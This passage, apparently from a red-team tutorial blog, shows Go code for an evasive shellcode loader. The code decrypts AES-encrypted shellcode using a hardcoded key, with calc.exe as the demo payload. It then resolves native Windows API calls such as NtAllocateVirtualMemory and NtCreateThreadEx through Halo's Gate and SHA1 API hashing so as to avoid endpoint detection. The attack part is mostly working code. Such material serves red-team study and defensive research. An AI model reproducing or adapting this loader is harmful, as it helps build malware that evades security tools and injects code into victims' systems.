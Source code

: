 ```go
iv := enc_shellcode[0:16]
enc_shellcode = enc_shellcode[16:]
password := "MySuperSecret32BitsLongPassword!"

fmt.Println("[*] Decrypting shellcode...")
shellcode, err := mcrypto.AESDecrypt(enc_shellcode, iv, []byte(password))
if err != nil {
    log.Fatal(err)
}
```

Now we encrypt the calc.exe shellcode:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice15/encrypter.png" alt="pic">

Once we've done this let's continue by resolving API calls by combining Halo's Gate and API hashing techniques

```go
fmt.Println("[*] Resolving API calls...")
// 04262a7943514ab931287729e862ca663d81f515 --> StrToSha1("NtAllocateVirtualMemory")
NtAllocateVirtualMemory, _, err := hooka.GetSysIdHashing("04262a7943514ab931287729e862ca663d81f515", Sha1)
if err != nil {
    log.Fatal(err)
}

// 6caed95840c323932b680d07df0a1bce28a89d1c --> StrToSha1("NtWriteVirtualMemory")
NtWriteVirtualMemory, _, err := hooka.GetSysIdHashing("6caed95840c323932b680d07df0a1bce28a89d1c", Sha1)
if err != nil {
    log.Fatal(err)
}

// 059637f5757d91ad1bc91215f73ab6037db6fe59 --> StrToSha1("NtProtectVirtualMemory")
NtProtectVirtualMemory, _, err := hooka.GetSysIdHashing("059637f5757d91ad1bc91215f73ab6037db6fe59", Sha1)
if err != nil {
    log.Fatal(err)
}

// 91958a615f982790029f18c9cdb6d7f7e02d396f --> StrToSha1("NtCreateThreadEx")
NtCreateThreadEx, _, err := hooka.GetSysIdHashing("91958a615f982790029f18c9cdb6d7f7e02d396f", Sha1)
if err != nil {
    log.Fatal(err)
}
```
